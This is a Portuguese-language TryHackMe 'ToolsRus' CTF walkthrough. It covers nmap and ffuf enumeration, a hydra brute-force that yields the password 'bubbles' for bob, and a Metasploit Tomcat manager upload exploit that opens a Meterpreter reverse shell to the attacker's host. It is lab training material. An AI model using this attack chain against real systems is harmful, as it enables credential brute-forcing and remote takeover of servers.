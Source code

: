 ```yaml
---
title: 'TryHackMe: ToolsRus'
author: Kertonli
categories: [TryHackMe]
tags: [Fácil, Nmap, Ffuf]
image:
  path: assets/images/tryhackme/toolsrus/room.png
---
```


Meu alvo é http://10.10.42.84/

Entrando no navegador temos uma mensagem dizendo que tem outras partes do site funcionando... (que conveniente rsrs)

![alt text](assets/images/tryhackme/toolsrus/image1.png)

Ok, vamos começar com o clássico nmap rápido em todas as portas

```
nmap -p- -T4 10.10.42.84

Nmap scan report for 10.10.42.84
Host is up (0.19s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1234/tcp open  hotline
8009/tcp open  ajp13

Nmap done: 1 IP address (1 host up) scanned in 866.10 seconds

```

Vamos obter mais informações dessas portas usando os scripts do nmap

```

nmap -sC -sV -T4 -p 22,80,1234,8009 10.10.42.84

Nmap scan report for 10.10.42.84
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:4b:f8:1d:f8:a8:3d:2a:c4:55:68:4c:8e:75:e3:7b (RSA)
|   256 55:fd:95:15:ce:49:6d:31:1f:ad:7a:de:8b:08:3c:87 (ECDSA)
|_  256 d2:7b:32:5b:86:ec:64:26:13:98:77:8c:f9:ae:f9:8f (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.84 seconds


```

Só com isso da pra resolver algumas perguntas do Tryhackme (5,6,8,9)

Na minha cabeça o próximo passo lógico é enumerar os arquivos, não me parece que esse é um desafio com subdomínios. Vamos usar o ffuf pois é uma ferramenta mais rápida.

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http://10.10.42.84/FUZZ -c -v


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.42.84/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 295, Words: 22, Lines: 12, Duration: 313ms]
| URL | http://10.10.42.84/.htaccess
    * FUZZ: .htaccess

[Status: 403, Size: 295, Words: 22, Lines: 12, Duration: 313ms]
| URL | http://10.10.42.84/.htpasswd
    * FUZZ: .htpasswd

[Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 306ms]
| URL | http://10.10.42.84/guidelines
| --> | http://10.10.42.84/guidelines/
    * FUZZ: guidelines

[Status: 401, Size: 458, Words: 42, Lines: 15, Duration: 222ms]
| URL | http://10.10.42.84/protected
    * FUZZ: protected

[Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 305ms]
| URL | http://10.10.42.84/server-status
    * FUZZ: server-status

:: Progress: [20478/20478] :: Job [1/1] :: 130 req/sec :: Duration: [0:02:24] :: Errors: 0 ::


```

Lembrando 403: Forbiddeen, 301: Moved Permanently, 401: Unauthorized. Olhando para o log, o 301 e o 401 são promissores. Com isso conseguimos responder algumas questões (1,3)

A questão 2 pode ser respondida visitando a rota /guidelines

![alt text](assets/images/tryhackme/toolsrus/image2.png)

Ok, para responder a questão 4 precisamos descobrir a senha do bob. Como a atividade quer nos ensinar a usar o hydra provavelmente precisamos usar ataque de força bruta na rota protected.

```

hydra -l bob -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt -f 10.10.42.84 -s 80 http-get /protected

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-11 16:41:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking http-get://10.10.42.84:80/protected
[80][http-get] host: 10.10.42.84   login: bob   password: bubbles
[STATUS] attack finished for 10.10.42.84 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-11 16:41:37


```

Com isso descobrimos a senha e temos a resposta da questão 4. Agora vamos explorar um pouco da porta 1234 visto que as próximas perguntas focam nelas.

![alt text](assets/images/tryhackme/toolsrus/image3.png)

![alt text](assets/images/tryhackme/toolsrus/image4.png)

Vamos usar o Nikto como o roteiro manda

```

nikto -id bob:bubbles -h http://10.10.42.84:1234/manager/html


```

Então eu adoraria mostrar a saída do comando mas essa ferramenta levou 1 hora para terminar e nem acabou, ele caiu porque a máquina do tryhackme expirou o tempo. Não gostei nada dessa ferramenta. a Resposta da questão 7 eu chutei até acertar.

Para finalizar vamos procurar um exploit desse apache tomcat rodando na porta 1234.

```

msf6 exploit(multi/http/tomcat_mgr_upload) > show options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  bubbles          no        The password for the specified username
   HttpUsername  bob              no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.225.174    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                            cs/using-metasploit.html
   RPORT         1234             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.18.71       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/tomcat_mgr_upload) > exploit
[*] Started reverse TCP handler on 10.8.18.71:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying I3dDU71Q4m25pG4FZE8XwMv...
[*] Executing I3dDU71Q4m25pG4FZE8XwMv...
[*] Sending stage (58073 bytes) to 10.10.225.174
[*] Undeploying I3dDU71Q4m25pG4FZE8XwMv ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.8.18.71:4444 -> 10.10.225.174:41514) at 2025-02-11 18:50:03 -0300

meterpreter > 


```

Conseguimos entrar. Aqui é tranquilo, só usar getuid e ver o usuário, entrar na pasta do usuário e pegar a flag.


![alt text](assets/images/tryhackme/toolsrus/image5.png)



